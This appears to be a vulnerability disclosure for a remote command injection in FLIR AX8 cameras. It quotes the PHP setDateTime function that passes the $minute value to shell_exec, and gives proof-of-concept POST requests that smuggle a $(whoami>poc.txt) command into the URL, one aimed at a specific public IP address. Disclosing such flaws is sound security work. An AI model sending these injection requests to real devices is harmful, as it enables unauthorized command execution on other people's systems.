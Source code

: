 # Remote Command Injection in parameter `$minute` in the file `settingsregional.php`

### Description

In FLIR AX8 up to 1.46.16, The  parameter **$minute** in `setDataTime` function in the file `\usr\www\application\models\settingsregional.php`  has a Remote Command Injection vulnerablilty .

`\usr\www\application\models\settingsregional.php`

```php
public function setDateTime($year, $month, $day, $hour, $minute)
{
    shell_exec(sprintf('timedatectl set-time "%s-%s-%s %s:%s"',
        $year,
        $month,
        $day,
        $hour,
        $minute
    ));
}
```

### POC

```
POST /settings/setDateTime/2025/3/15/10/11$(whoami>poc.txt) HTTP/1.1
Host: XXXXXXX
```

### Example 

```
POST /settings/setDateTime/2025/3/15/10/11$(whoami>poc.txt) HTTP/1.1
Host: 222.103.211.89:8003
```

![image-20250317212006414](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172120669.png)

![image-20250317212028324](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172120398.png)